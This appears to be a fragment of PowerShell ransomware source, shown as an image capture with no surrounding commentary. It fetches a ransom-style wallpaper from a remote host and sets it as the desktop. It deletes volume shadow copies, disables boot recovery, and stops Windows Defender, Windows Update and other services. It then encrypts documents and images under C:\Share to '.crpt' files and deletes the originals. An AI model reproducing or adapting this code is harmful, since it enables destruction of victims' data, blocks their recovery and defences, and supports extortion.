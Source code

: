 ```shell=

    $background = "http://$IP/wall.jpg"
    Invoke-WebRequest -Uri $background -OutFile "/users/$env:USERNAME/wall.jpg"
    Start-Sleep -s 2
    $wallpaper = "C:/users/$env:USERNAME/wall.jpg"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name Wallpaper -value "$wallpaper"
    Set-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name WallpaperStyle -value "10"
    Start-Sleep -s 2
    rundll32.exe user32.dll, UpdatePerUserSystemParameters, 1 , $False

    vssadmin delete shadows /all /quiet;
    spsv vss -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='vss'").StartMode) -ne "Disabled"){
    set-service vss -StartupType Disabled};

    bcdedit /set recoveryenabled No|Out-Null;
    bcdedit /set bootstatuspolicy ignoreallfailures|Out-Null;

    spsv Wscsvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wscsvc'").StartMode) -ne "Disabled"){
    set-service Wscsvc -StartupType Disabled};
    spsv WinDefend -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WinDefend'").StartMode) -ne "Disabled"){
    set-service WinDefend -StartupType Disabled};
    spsv Wuauserv -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='Wuauserv'").StartMode) -ne "Disabled"){
    set-service Wuauserv -StartupType Disabled};
    spsv BITS -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='BITS'").StartMode) -ne "Disabled"){
    set-service BITS -StartupType Disabled};
    spsv ERSvc -ErrorAction SilentlyContinue;
    spsv WerSvc -ErrorAction SilentlyContinue;
    if(((gwmi -Query "Select StartMode From Win32_Service Where Name='WerSvc'").StartMode) -ne "Disabled"){
    set-service WerSvc -StartupType Disabled};

    Write-Output "Encryption phase" 

    $encryptor=$aesManaged.CreateEncryptor();
    $directory = "C:\Share"
    $files=gci $directory -Recurse -Include *.txt,*.pdf,*.docx,*.doc,*.jpg;
    foreach($file in $files) {
        $bytes=[System.IO.File]::ReadAllBytes($($file.FullName));
        $encryptedData=$encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
        [byte[]] $fullData=$aesManaged.IV + $encryptedData;
        [System.IO.File]::WriteAllBytes($($file.FullName+".crpt"),$fullData);
        Remove-Item $file;
    }
}
```
